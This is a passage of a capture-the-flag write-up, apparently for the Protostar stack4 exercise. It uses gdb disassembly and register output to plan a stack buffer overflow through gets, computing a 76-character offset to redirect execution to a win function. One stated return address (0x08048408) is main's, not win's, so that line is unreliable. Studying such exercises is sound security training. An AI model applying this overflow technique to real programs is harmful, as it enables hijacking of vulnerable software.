```gdb
 info functions
All defined functions:

File stack4/stack4.c:
int main(int, char **);
void win(void);
```

We then examine both the main and win function.

```gdb
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```

From the code we can guess the buffer is at `esp+0x10` to `esp+0x50` a 64char buffer. We can also see that there is a `gets` call before the function terminates. There is no call to any other function in main. We want to try to force main to call `win` instead. We could do so by having the stack overflow past ebp of main. Then we would have to also replace the ebp of the caller to main and the return address afterwards, where the return address should be `0x08048408`.
By computing we aim to find the esp and overflow past the ebp by a word to first remove the previous ebp in call and then to inject the address of `win`.

## Idea and Attack process

```gdb
b *0x0804840e
r
info reg
>>>esp            0xbffffc10       0xbffffc10
>>>ebp            0xbffffc68       0xbffffc68
```

From here we will reverse work the location of the stack to be `0xbffffc20` and we will have to fill till `0xbffffc68 + 4` that gives us a total of 76char before injecting our `win` location
